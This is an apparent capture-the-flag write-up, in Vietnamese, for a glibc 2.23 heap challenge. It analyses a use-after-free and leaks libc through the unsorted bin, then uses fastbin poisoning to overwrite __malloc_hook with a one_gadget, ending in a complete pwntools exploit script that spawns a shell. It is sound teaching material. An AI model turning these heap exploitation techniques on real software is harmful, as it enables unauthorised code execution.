









### Thông tin file:
```c
└─$ ls
libc.2.23.so  pwn2_df
```
```c
└─$ file pwn2_df 
pwn2_df: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 3.2.0, BuildID[sha1]=448d3beedfd5ae424f8d857ba8b2e06eb7e09591, not stripped
```
```c
└─$ checksec --file=pwn2_df 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols   FORTIFY  Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   85 Symbols  No     0               2               pwn2_df
```



___
Code của chương trình:
`main()`:
```c
void main(void)
{
  int option;
  
  initState();
  puts("Ez heap challange !");
  do {
    menu();
    option = readInt();
    switch(option) {
    default:
      puts("no option");
      break;
    case 1:
      createHeap;
      break;
    case 2:
      showHeap();
      break;
    case 3:
      editHeap();
      break;
    case 4:
      deleteHeap(0);
      break;
    case 5:
      exit(0);
    }
  } while( true );
}
```
Các functions chính:
* `createHeap()`
* `showHeap()`
* `editHeap()`
* `deleteHeap(0)`
  
`createHeap()`:
```c
undefined8 createHeap(void)
{
  int idx;
  uint size;
  char **ptr;
  
  printf("Index:");
  idx = readInt();
  if ((-1 < idx) && (idx < 10)) {
    printf("Input size:");
    size = readInt();
    if (4096 < size) {
      exit(0);
    }
    ptr = (char **)malloc((ulong)size);
    (&store)[idx] = ptr;
    (&storeSize)[idx] = size;
    printf("Input data:");
    readStr((&store)[idx],size);
    puts("Done");
    return 0;
  }
  exit(0);
}
```
* có tổng 10 chunks có thể tạo được, từ index: 0 -> 9
* `&store` và `&storeSize` là vùng nhớ trên .bss của binary, với:
	* `&store`: lưu lại con trỏ trả lại của các chunk cấp phát
 	* `&storeSize`: lưu	lại size của các chunk (mỗi size chiếm 4 bytes)
`showHeap()`:
```c
undefined8 showHeap(void)
{
  int idx;
  
  printf("Index:");
  idx = readInt();
  if ((-1 < idx) && (idx < 10)) {
    if ((&store)[idx] != (char **)0x0) {
      printf("Data = %s\n",(&store)[idx]);
    }
    return 0;
  }
  exit(0);
}
```
* `printf("Data = %s\n",(&store)[idx])`: in dữ liệu trong chunk => có thể dùng để leak libc
`editHeap()`:
```c
undefined8 editHeap(void)
{
  int idx;
  
  printf("Input index:");
  idx = readInt();
  if ((idx < 10) && (-1 < idx)) {
    if ((&store)[idx] != (char **)0x0) {
      readStr((&store)[idx],(&storeSize)[idx]);
      puts("Done ");
    }
    return 0;
  }
  exit(0);
}
```
* `readStr((&store)[idx],(&storeSize)[idx]);`: cho phép overwrite lại dữ liệu trong chunk => có thể dùng để overwrite fd ptr của chunk trong fastbin
`deleteHeap()`:
```c
undefined8 deleteHeap(void)
{
  int idx;
  
  printf("Input index:");
  idx = readInt();
  if ((idx < 10) && (-1 < idx)) {
    if ((&store)[idx] != (char **)0x0) {
      free((&store)[idx]);
      puts("Done ");
    }
    return 0;
  }
  exit(0);
}
```
* `free((&store)[idx]);`: giải phóng chunk vào bins
* `(&store)[idx]`: con trỏ bên trong vẫn được giữ, không bị set về 0/NULL
  
   * Mà có `editHeap()` tham chiếu đến `(&store)[idx]` => Use-After-Free
   * có `showHeap()` cũng tham chiếu đến `(&store)[idx]` => Leak fd ptr

___
### Exploit: 
Phương thức: Use-After-Free, Fastbin poisoning

Trong chương trình không tìm thấy hàm `win()` nào trả flag hay gọi system

Ta phải exploit để chương trình spawn shell

* trước hết là ta đi leak địa chỉ libc:
  * tạo chunk đầu với `size = 0x410` lớn hơn size của fastbin, để khi free() đưa vào unsortedbin
    ```python
    createHeap(0, 0x410)
    ```
  * tạo chunk con để tránh chunk trên khi freed thì gộp với top chunk
	```python
	createHeap(1, 0x10)
  	```
  	trên Heap:
  	```asm
	pwndbg> vis
	0x556f4fd00000  0x0000000000000000      0x0000000000000421      ........!.......
	0x556f4fd00010  0x4141414141414141      0x0000000000000000      AAAAAAAA........
	0x556f4fd00020  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00030  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00040  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00050  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00060  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00070  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00080  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00090  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd000a0  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd000b0  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd000c0  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd000d0  0x0000000000000000      0x0000000000000000      ................
   	...
   	0x556f4fd003e0  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd003f0  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00400  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00410  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00420  0x0000000000000000      0x0000000000000021      ........!.......
	0x556f4fd00430  0x4242424242424242      0x0000000000000000      BBBBBBBB........
	0x556f4fd00440  0x0000000000000000      0x0000000000020bc1      ................         <-- Top chunk
   	```
   	```asm
    pwndbg> heap
	Allocated chunk | PREV_INUSE
	Addr: 0x556f4fd00000
	Size: 0x420 (with flag bits: 0x421)
	
	Allocated chunk | PREV_INUSE
	Addr: 0x556f4fd00420
	Size: 0x20 (with flag bits: 0x21)
	
	Top chunk | PREV_INUSE
	Addr: 0x556f4fd00440
	Size: 0x20bc0 (with flag bits: 0x20bc1)
    ```
  * `deleteHeap(0)`: free chunk lớn đầu tiên vào unsortedbin (vì size chunk khi free = 0x420)
    ```
	pwndbg> bins
	fastbins
	empty
	unsortedbin
	all: 0x556f4fd00000 —▸ 0x7f1ad959bb78 (main_arena+88) ◂— 0x556f4fd00000
	smallbins
	empty
	largebins
	empty
    ```
    ```
	pwndbg> vis
	
	0x556f4fd00000  0x0000000000000000      0x0000000000000421      ........!.......         <-- unsortedbin[all][0]
	0x556f4fd00010  0x00007f1ad959bb78      0x00007f1ad959bb78      x.Y.....x.Y.....
	0x556f4fd00020  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00030  0x0000000000000000      0x0000000000000000      ................
	0x556f4fd00040  0x0000000000000000      0x0000000000000000      ................
	...
    ```
	ta thấy từ bin, freed chunk `0x556f4fd00000` trỏ tới địa chỉ `0x7f1ad959bb78 (main_arena+88)` - là địa chỉ libc
  * giờ, gọi đến `showHeap()` tham chiếu đến `(&store)[idx]` tại `idx=0` - địa chỉ của freed chunk hiện tại

	Leak được dữ liệu bên trong freed chunk là địa chỉ libc trên
 
	

	Từ đó, tính `libc.address`

* Có được libc, giờ tìm cách để spawn shell:
 
 	* ta sẽ spawn shell qua one_gadget:
 
      

      trong trường hợp này, có  `__malloc_hook` thực thi khi hàm `malloc` được gọi, ta sẽ nhét one_gadget vào đây

	* tạo một chunk tiếp theo với size của fastbin (0x60)
      ```python
      createHeap(2, 0x60)
      ```

      

  	  đoạn này là do malloc() thấy chunk 0x60 < chunk 0x420 trong unsortedbin nên split từ unsortedbin  
	* `deleteHeap(2)`: free chunk trên, đưa chunk vào fastbin
      ```
		pwndbg> fastbins
		fastbins
		0x70: 0x556f4fd00000 ◂— 0
      
		pwndbg> vis	
		0x556f4fd00000  0x0000000000000000      0x0000000000000071      ........q.......         <-- fastbins[0x70][0]
		0x556f4fd00010  0x0000000000000000      0x00007f1ad959bf00      ..........Y.....
		0x556f4fd00020  0x0000556f4fd00000      0x0000556f4fd00000      ...OoU.....OoU..
		0x556f4fd00030  0x0000000000000000      0x0000000000000000      ................
		0x556f4fd00040  0x0000000000000000      0x0000000000000000      ................
		0x556f4fd00050  0x0000000000000000      0x0000000000000000      ................
		0x556f4fd00060  0x0000000000000000      0x0000000000000000      ................
      	...
      ```
      đây là chunk đầu tiên được free vào fastbin (0x70), nên chứa con trỏ fd đến NULL
   
      

   * có bug fastbin poisoning: thay đổi con trỏ fd của freed chunk trong bin đến một vùng nhớ bất kỳ, khi malloc() gọi tới sẽ tìm đến vùng nhớ này, kiểm tra và trả lại địa chỉ này
   
   * `editHeap(2)`: tham chiếu đến `(&store)[idx]` tại `idx=2`; giả sử thay đổi thành địa chỉ muốn tới là `__malloc_hook`
 
     
 
     trong fastbins giờ có 2 chunks 
 
     tạo chunk mới với size = 0x60:
     ```python
     createHeap(3, 0x60)
     ```
  
     
 
     freed chunk đầu được tái sử dụng bới malloc()
     
     lại tạo chunk mới với size = 0x60:
     ```python
     createHeap(3, 0x60)
     ```
     
     
 
     malloc() vẫn lấy địa chỉ chunk trong fastbin để tái sử dụng ==> khả thi, nhưng không thành công
     

     vì trong bản 2.23, fastbin sẽ kiểm tra chunksize phần metadata của chunk trước khi cho malloc() tái sử dụng chunk đấy

  	 vì vậy, phải dựng một chunk giả để dáp ứng:
   
	 ```python
	 malloc_hook = libc.sym['__malloc_hook']
	 fake_chunk = libc.sym['__malloc_hook'] - 0x23
     ```
	  
	 

  	offset `- 0x23` để căn giá trị `0x7f` đúng chỗ chunksize của phần metadata
  	```
	0x5e2219a260000000     0x000000000000007f  <= metadata (prev_size + size)
   	0x5e21e79b00000000     0x5e21e79aa000007f  <= data
	```
	

	```asm
	pwndbg> p/x 0x7f5e2219bb10 - 0x23
	$9 = 0x7f5e2219baed
	pwndbg> x/4gx  0x7f5e2219baed
	0x7f5e2219baed <_IO_wide_data_0+301>:   0x5e2219a260000000      0x000000000000007f <== đóng giả thành phần chunksize (=0x70) 
	0x7f5e2219bafd: 0x5e21e79b00000000      0x5e21e79aa000007f
	pwndbg> 
	0x7f5e2219bb0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000
	...
	```
 	việc còn lại là điền payload bao gồm padding, one_gadget vào vị trí của malloc_hook

   	và gọi `createHeap(4)` để thực thi one_gadget

  	nhưng để đáp ứng đúng điều kiện của one_gadget, ta overwrite `__realloc_hook` thành one_gadget, `malloc_hook` thành `realloc + 14` để bỏ qua một số thay đổi thanh ghi

	

	

___
`script.py`:
```python
from pwn import *

libc = ELF("./libc.2.23.so", checksec=False)

context.binary = exe = ELF("./pwn2_df_patched", checksec=False)
context.log_level = "debug"

def GDB():
	gdb.attach(p, gdbscript='''
		handle SIGALRM ignore
		br createHeap
		br *createHeap + 115
		br *createHeap + 234
		br showHeap
		br *showHeap + 133
		br editHeap
		br deleteHeap
		br *deleteHeap + 123
		br *__malloc_hook

		# heap check:
		# heap [-v]
		# vis
		# vmmap
		# x/4gx &store
		# x/4gx &storeSize
		# p &__malloc_hook
		''')

p = process(exe.path)
# GDB()

def createHeap(idx, size, data):
	p.sendlineafter(b">", b"1")
	p.sendlineafter(b"Index:", idx)
	p.sendlineafter(b"size:", size)
	p.sendlineafter(b"data:", data)

def showHeap(idx):
	p.sendlineafter(b">", b"2")
	p.sendlineafter(b"Index:", idx)

def editHeap(idx, data):
	p.sendlineafter(b">", b"3")
	p.sendlineafter(b"index:", idx)
	p.sendline(data)

def deleteHeap(idx):
	p.sendlineafter(b">", b"4")
	p.sendlineafter(b"index:", idx)

# big chunk to unsortedbin
createHeap(b'0', b'1040', b'A'*8)
# avoid consolidation
createHeap(b'1', b'16', b'B'*8)

deleteHeap(b'0')

# leak fd/bk ptr 
showHeap(b'0')

# calculate offsets
p.recvuntil(b"=")
leak_libc = p.recvline().strip()
leak_libc = u64(leak_libc.ljust(8, b"\x00"))
print(f"leak_libc: {hex(leak_libc)}")

libc.address = leak_libc - 0x39bb78

print(f"libc_base: {hex(libc.address)}")

malloc_hook = libc.address + 0x39bb10
fake_chunk = libc.sym['__malloc_hook'] - 0x23
realloc = libc.sym['realloc']

print(f"malloc_hook: {hex(malloc_hook)}")
print(f"fake_chunk: {hex(fake_chunk)}")

# GDB()
createHeap(b'2', b'96', b'C'*8) # 0x60 --> 0x70
deleteHeap(b'2')

editHeap(b'2', p64(fake_chunk))

createHeap(b'3', b'96', b'D'*8)

# 0x3f3d6 / 0x3f42a / 0xd5bf7
one_gadget = libc.address + 0xd5bf7

# payload = b'A' * 19 + p64(one_gadget)
payload = b'A' * 11 + p64(one_gadget) + p64(realloc + 14)
createHeap(b'4', b'96', payload)

GDB()
p.sendlineafter(b">", b"1")
p.sendlineafter(b"Index:", b'5')
p.sendlineafter(b"size:", b'10')

p.interactive()
```
___

```
The Big Difference: The "Size Check"
In the video (libc 2.31), they are using tcache poisoning. The tcache is designed for pure speed, so it has almost zero security checks.

In libc 2.31, you can point a tcache fd to any address (like __free_hook), and malloc will give it to you immediately, even if the memory there is all zeros.

In your version (libc 2.23), you are dealing with fastbins.

Fastbins have the Size Check we discussed earlier. Glibc 2.23 looks at the memory you are trying to "claim" and says: "Show me a valid size byte here, or I will crash."
```
